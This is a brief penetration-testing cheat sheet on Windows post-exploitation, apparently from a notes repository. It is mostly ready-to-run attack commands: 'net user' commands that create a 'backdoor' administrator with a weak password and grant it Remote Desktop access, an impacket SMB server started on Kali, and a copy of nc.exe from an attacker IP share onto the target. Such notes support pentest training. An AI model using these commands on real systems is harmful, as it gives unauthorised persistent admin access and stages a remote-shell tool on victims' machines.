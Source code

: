 # Windows

### Windows Version Information

[https://en.wikipedia.org/wiki/Comparison\_of\_Microsoft\_Windows\_versions](https://en.wikipedia.org/wiki/Comparison_of_Microsoft_Windows_versions)

## Windows Enumeration



## Windows Post Exploitation

### Create Backdoor User <a id="backdoor_user"></a>

```text
net user backdoor backdoor123 /add
net localgroup administrators backdoor /add
net localgroup "Remote Desktop Users" backdoor /add
```

### Spin up SMB Share on Kali

`impacket-smbserver SMBSHARE ./`

#### Connect to share from windows

```bash
copy \\10.11.0.53\SMBSHARE\nc.exe
```







